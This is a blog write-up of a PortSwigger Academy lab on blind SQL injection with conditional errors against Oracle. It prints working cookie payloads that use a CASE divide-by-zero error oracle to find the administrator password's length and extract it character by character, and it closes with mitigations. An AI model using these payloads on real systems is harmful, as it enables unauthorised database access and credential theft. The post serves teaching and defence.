---
# ============================================================================
#  YAZI AYARLARI (front matter) — "---" çizgilerini SİLME.
#  NOT: Önizleme konteynerinin saati UTC; date satırını günün erken bir
#       saatine koy (ör. 18:00 +0300) yoksa "gelecek tarih" sayılıp yayınlanmaz.
# ============================================================================

title: "Blind SQL injection with conditional errors"   # Yazı başlığı (tırnak içinde)
description: "PortSwigger's blind SQL injection lab on Oracle: when the only observable difference is a 500 error, a CASE expression with a divide-by-zero becomes the oracle for extracting the administrator password."   # Tek cümlelik özet; kartta ve Google'da görünür

date: 2026-11-24 18:00:00 +0300                  # Yayın tarihi (ileri tarih verirsen yazı yayınlanmaz)

categories: [Web Security]                       # _data/categories.yml içindeki alanlardan biri (renk buradan gelir)
tags: [portswigger, sql-injection, blind-sqli, oracle, burp-suite, intruder, practitioner]   # Serbest etiketler (küçük harf, boşluksuz)

platform: PortSwigger Web Security Academy       # Üst bilgide "Platform" olarak görünür
difficulty: Practitioner                         # Apprentice / Practitioner / Expert (renkli seviye rozeti)

# --- Kapak görseli ---------------------------------------------------------
# Tüm SQL injection yazıları aynı kategori kapağını paylaşır.
image:
  path: /posts/images/sql-injection-cover.webp
  alt: "Blind SQL injection with conditional errors — lab cover"

# --- Güncelleme tarihi (İSTEĞE BAĞLI) --------------------------------------
# last_modified_at: 2026-11-24 18:00:00 +0300
---

<!-- ==========================================================================
     NASIL DÜZENLERİM? (bu blok ekranda GÖRÜNMEZ, sadece sana not)

     Köşeli parantezli [...] yerleri kendi cümlelerinle (İngilizce) değiştir.

     BAŞLIK:  ## / ###    METİN: **kalın** *italik* `kod`    LİSTE: "- " / "1. "
     LİNK:    [metin](https://adres)      TUŞ: <kbd>Ctrl</kbd> + <kbd>R</kbd>
     GÖRSEL:  
              - Yol /posts/images/... ile başlar; tırnaktaki metin alt açıklama olur
              - Dosya adlarına laba özel önek ver (sqli-cerr-...), yoksa çakışır
              - DİKKAT: görsel açıklamasında "|" (pipe) KULLANMA; tablo sanılır
     KOD:     ```sql ... ```  (diller: http, bash, sql, text)
     KUTULAR: satır altına {: .note} / {: .tip} / {: .warn}
========================================================================== -->

## Overview

The [previous blind lab](/blog/blind-sql-injection-conditional-responses/) gave us a friendly oracle: a "Welcome back" message that appeared or vanished with the truth of our condition. This lab removes that luxury. Here the `TrackingId` query runs in the background and its result changes **nothing** you can see — same page, same content, every time. There is no boolean tell in the body.

So we manufacture one. The application **catches** SQL errors and, when the query runs cleanly, returns a normal `200`; but when the query throws a database error, it leaks a `500 Internal Server Error`. That status difference is our oracle. The trick is to make the database error **conditionally** — only when the thing we're testing is true — using a `CASE` expression that divides by zero on the true branch.

This instance is **Oracle**, which shapes the syntax throughout: string concatenation with the double-pipe operator, a mandatory `FROM dual`, and `SUBSTR`/`TO_CHAR` instead of their non-Oracle spellings.

> Only test on systems you own or are explicitly authorised to test, such as PortSwigger Web Security Academy labs.
{: .warn}

## The lab

**Goal:** The tracking cookie is vulnerable to blind SQL injection, but the results are not returned and the application does not respond differently based on whether the query returns rows. It *does* respond differently when the query causes a database error. There is a `users` table with `username` and `password` columns, and an `administrator` user. Extract the password and log in.



## Recon — finding the error oracle

The injection point is the `TrackingId` cookie. Turn on **Proxy > Intercept** so we can edit it in flight.



First, break the query with a single quote to prove it's injectable:

```sql
TrackingId=2laxI6rAoVbhFElH'
```



The response is a `500 Internal Server Error` — the unbalanced quote broke the SQL, and the app surfaced the error:


That error is the whole game. If we can make the error appear **only when a condition is true**, we have a boolean oracle built from HTTP status codes.

## Exploitation

### Step 1 — fingerprint the database (Oracle)

Rebuild the cookie cleanly with concatenation so the value stays valid, then probe for Oracle. A bare `SELECT ''` with no table **fails** on Oracle:

```sql
TrackingId=2laxI6rAoVbhFElH'||(SELECT '')||'
```




Add Oracle's mandatory `FROM dual` and the same query runs cleanly (`200`), confirming the database engine:

```sql
TrackingId=2laxI6rAoVbhFElH'||(SELECT '' FROM dual)||'
```





### Step 2 — confirm the users table

Same idea to verify the table exists: a **fake** table name errors, a real one doesn't. A bogus table throws:

```sql
TrackingId=2laxI6rAoVbhFElH'||(SELECT '' FROM not-a-real-table)||'
```




Swap in `users` (with `ROWNUM = 1` so Oracle returns a single row) and the page loads normally — the table exists:

```sql
TrackingId=2laxI6rAoVbhFElH'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```





### Step 3 — build the conditional-error oracle

Now the core technique. A `CASE` expression evaluates one branch or the other; put a **divide-by-zero** on the *true* branch and a harmless empty string on the *false* branch. When the condition is true, Oracle evaluates `TO_CHAR(1/0)` and throws; when false, it doesn't.

A condition that is always true (`1=1`) errors:

```sql
TrackingId=2laxI6rAoVbhFElH'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

 divides by zero, so the response is HTTP 500")

A condition that is always false (`1=2`) does **not** error — the response is `200`:

```sql
TrackingId=2laxI6rAoVbhFElH'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

 skips the divide-by-zero, so the response is HTTP 200")

There it is: **true = 500, false = 200.** Every question from here is just a new condition inside that `CASE`.

{: .tip}
> The divide-by-zero is only the most common error trigger. Anything that throws conditionally works — on Oracle you could also use `(SELECT 1/0 FROM dual)` directly, and other engines have their own: `CAST`, `CONVERT`, or a subquery that returns too many rows.

### Step 4 — confirm the administrator row

Point the oracle at the `administrator` row. If the row exists, the `CASE` is evaluated and the true branch errors:

```sql
TrackingId=2laxI6rAoVbhFElH'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```



### Step 5 — find the password length

Replace the condition with a `LENGTH()` test and binary-search the length. Longer than 1 is true (500):

```sql
TrackingId=2laxI6rAoVbhFElH'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

>1 returns 500 — the condition is true")

Longer than 20 is false (200):

>20 returns 200 — the condition is false, so the length is 20")

So the password is **20 characters** long.

### Step 6 — extract the password with Burp Intruder

To read each character, compare `SUBSTR(password, N, 1)` against every candidate and let the error fire on a match. Send the request to **Intruder**, mark the guessed character as the payload, and choose a **Sniper** attack with an `a`–`z`, `0`–`9` payload list:

```sql
TrackingId=2laxI6rAoVbhFElH'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

 compared against the guessed character, with an a-z 0-9 payload list")

This time we don't grep the body — we **sort by status code**. The single payload whose response is `500` is the correct character for that position. For position 1 it's `x`:



Repeat for each position (`SUBSTR(password,2,1)`, `SUBSTR(password,3,1)`, …), reading off the character whose response was `500`. Assembling all 20 gives the full password:



### Step 7 — log in

Log in through the normal form as `administrator`:



The lab is solved:



## Other ways to solve it

As with the last lab, the Burp-by-hand route is the clearest to learn on, but the same error oracle can be driven faster. We'll put these to work in the next labs:

- **A script (`curl` + status check).** The oracle is one request and one check — `[ "$code" = "500" ]` — so a short loop over positions and characters extracts the whole password in seconds.
- **sqlmap.** With `--cookie="TrackingId=...*"` it detects the error-based blind condition and dumps the data automatically — no `CASE` wiring by hand.
- **Binary search.** Compare with `>` on the character (`SUBSTR(...) > 'm'`) to halve the candidate set each step, ~6 requests per character instead of up to 36.

## Root cause

Two separate mistakes combine here. First, the tracking cookie is concatenated straight into the query, so a `'` breaks out and the rest becomes SQL:

```sql
-- Vulnerable: the cookie value is pasted into the query
"SELECT * FROM tracking WHERE id = '" + trackingId + "'"
```

Second — and what makes *this* variant exploitable — the application returns **verbose, differentiated errors**: a clean `200` when the query succeeds and a `500` when it throws. Even though the query result is never shown, that error/no-error distinction is an observable side effect, and one bit per request is all a blind attack needs.

## Mitigation

- **Parameterized queries** remain the core fix — a bound cookie value can never break out of the string or inject a `CASE`.

```sql
-- Safer: the value is bound, not concatenated
SELECT * FROM tracking WHERE id = ?
```

- **Handle errors generically.** Catch database exceptions and return the *same* generic response (and status) you return on success. Leaking a distinct `500` is what turned an invisible query into an oracle.
- **Don't store passwords in plaintext** — a salted hash (bcrypt/argon2) makes a one-bit-at-a-time leak worthless.
- **Least privilege:** the tracking query's account has no reason to read the `users` table.

## Key takeaways

- When there's no content-based tell, a **conditional error** is the oracle: `CASE WHEN (condition) THEN 1/0 ELSE '' END` turns any yes/no question into a `500` vs `200`.
- Fingerprint first — this lab's Oracle dialect dictates `FROM dual`, `||` concatenation, and `SUBSTR`/`TO_CHAR`.
- Extract with `SUBSTR(password, N, 1)` per position; in Intruder, **sort by status code** instead of grepping the body.
- The fix is parameterized queries *and* uniform error handling — verbose, differentiated errors are what made the blind query observable.
